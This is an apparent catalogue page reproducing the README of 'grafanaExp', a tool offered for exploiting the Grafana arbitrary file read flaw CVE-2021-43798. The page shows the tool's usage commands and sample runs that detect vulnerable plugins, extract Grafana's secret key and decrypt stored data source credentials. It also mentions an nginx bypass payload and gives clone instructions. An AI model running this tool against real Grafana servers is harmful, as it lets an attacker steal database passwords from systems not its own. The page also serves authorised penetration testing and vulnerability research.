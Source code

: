 # grafanaExp

A exploit tool for Grafana Unauthorized arbitrary file reading vulnerability (CVE-2021-43798), it can burst plugins / extract secret_key / decrypt data_source info automatic.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/A-D-Team](https://github.com/A-D-Team) |
| Url      | [https://github.com/A-D-Team/grafanaExp](https://github.com/A-D-Team/grafanaExp)                                               |
| Stars    | 223                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2021-43798* exploit* grafana

</details>

## Readme

# grafanaExp

利用grafana CVE-2021-43798任意文件读漏洞，自动探测是否有漏洞、存在的plugin、提取密钥、解密server端db文件，并输出`data_sourrce`信息。

## 使用方法
提供exp和decode功能。
```
➜  ./grafanaExp -h
NAME:
   grafanaExp - Exploit Grafana with CVE-2021-43798 Arbitrary File Read.

USAGE:
   grafanaExp [global options] command [command options] [arguments...]

AUTHOR:
   A&D-Team

COMMANDS:
   exp      -u [url] -p [plugin] -c [config] -d [db] -k [key]
   decode   decode -f [dbfile] -k [key]
   help, h  Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --help, -h  show help (default: false)

```

### Exp
自动探测是否有漏洞、存在的plugin、提取密钥、解密server端db文件，并输出`data_souce`信息：
```
➜  ./grafanaExp exp -u http://localhost:3000/ 
2021/12/07 22:19:10 Target vulnerable has plugin [alertlist]
2021/12/07 22:19:10 Get secret_key [SW2YcwTIb9zpOOhoPsMm]
2021/12/07 22:19:10 type:[mysql]        name:[MySQL_01]         url:[test.mysql.io:3306]        user:[root]     password[rootpassword]  database:[test_dbname]  basic_auth_user:[]      basic_auth_password:[]
2021/12/07 22:19:10 type:[mssql]        name:[Mssql_01]         url:[test_sqlserver:1433]       user:[admin]    password[adminpassword] database:[db_sqlserver] basic_auth_user:[]      basic_auth_password:[]
2021/12/07 22:19:10 type:[elasticsearch]        name:[es_01]            url:[http://localhost:9200]     user:[] password[]      database:[]     basic_auth_user:[basic_user]    basic_auth_password:[basic_pass]
2021/12/07 22:19:10 type:[postgres]     name:[Postgre_01]               url:[Postgre_01:5432]   user:[pppp]     password[sssswwwww]     database:[postgredb]    basic_auth_user:[]      basic_auth_password:[]
2021/12/07 22:19:10 All Done, have nice day!

```

### Decode
当DB文件太大的时候，可先下载到本地，之后再本地解密：
```
➜ ./grafanaExp decode -f grafana.db -k SW2YcwTIb9zpOOhoPsMm
2021/12/07 23:00:20 type:[mysql]        name:[MySQL_01]         url:[test.mysql.io:3306]        user:[root]     password[rootpassword]  database:[test_dbname]  basic_auth_user:[]      basic_auth_password:[]
2021/12/07 23:00:20 type:[mssql]        name:[Mssql_01]         url:[test_sqlserver:1433]       user:[admin]    password[adminpassword] database:[db_sqlserver] basic_auth_user:[]      basic_auth_password:[]
2021/12/07 23:00:20 type:[elasticsearch]        name:[es_01]            url:[http://localhost:9200]     user:[] password[]      database:[]     basic_auth_user:[basic_user]    basic_auth_password:[basic_pass]
2021/12/07 23:00:20 type:[postgres]     name:[Postgre_01]               url:[Postgre_01:5432]   user:[pppp]     password[sssswwwww]     database:[postgredb]    basic_auth_user:[]      basic_auth_password:[]
```

## 更新
```
1、支持https （昨天没加因为 transport会有一些奇奇怪怪的问题
2、增加darwin的执行文件
3、增加绕过nginx的paylaod （裸改了一下net/http
```

## 申明

本程序应仅用于授权的安全测试与研究目的



## Get the content

```
git clone https://github.com/A-D-Team/grafanaExp
cd grafanaExp
```

{% embed url="https://github.com/A-D-Team/grafanaExp" %}

<figure><img src="https://avatars.githubusercontent.com/u/94842031?v=4" alt=""><figcaption><p>A-D-Team</p></figcaption></figure>

